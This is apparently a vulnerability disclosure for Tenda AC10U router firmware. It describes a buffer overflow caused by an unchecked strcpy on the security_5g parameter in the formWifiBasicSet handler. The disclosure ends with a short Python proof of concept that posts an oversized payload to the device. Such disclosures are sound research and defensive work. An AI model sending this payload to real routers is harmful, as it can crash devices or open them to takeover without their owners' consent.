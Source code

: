# buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formWifiBasicSet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](16.png)

get value from security_5g 

![](17.png)

if we dont send all paremeters, get into else, call strcpy, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/formWifiBasicSet"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'security_5g': payload})
``` 
